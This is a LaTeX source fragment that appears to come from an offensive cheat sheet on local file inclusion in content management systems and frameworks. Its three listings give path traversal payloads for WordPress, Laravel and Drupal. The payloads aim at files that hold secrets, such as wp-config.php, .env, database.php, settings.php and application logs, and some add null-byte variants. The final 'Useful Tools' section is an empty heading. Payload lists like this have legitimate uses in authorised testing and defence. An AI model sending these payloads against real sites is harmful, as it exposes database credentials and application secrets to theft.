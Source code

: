 \documentclass[12pt]{article}
\begin{document}
\section{Framework and CMS Specific}

\subsection{WordPress LFI}

\begin{lstlisting}
# Theme file inclusion
/wp-content/themes/theme-name/../../../../wp-config.php

# Plugin vulnerability
/wp-content/plugins/plugin-name/../../../../wp-config.php

# wp-config location
../../../../wp-config.php
../../../../wp-config.php%00
\end{lstlisting}

\subsection{Laravel LFI}

\begin{lstlisting}
# Read .env file
../../../../.env
../../../../.env%00

# Read logs
/storage/logs/laravel.log
../../../../storage/logs/laravel.log

# Read config
/config/app.php
../../../../config/database.php
\end{lstlisting}

\subsection{Drupal LFI}

\begin{lstlisting}
# Settings file
../../../../sites/default/settings.php

# Module inclusion
/modules/contrib/module/../../../../sites/default/settings.php
\end{lstlisting}

\section{Tools and Automation}

\subsection{Useful Tools}
\end{document}
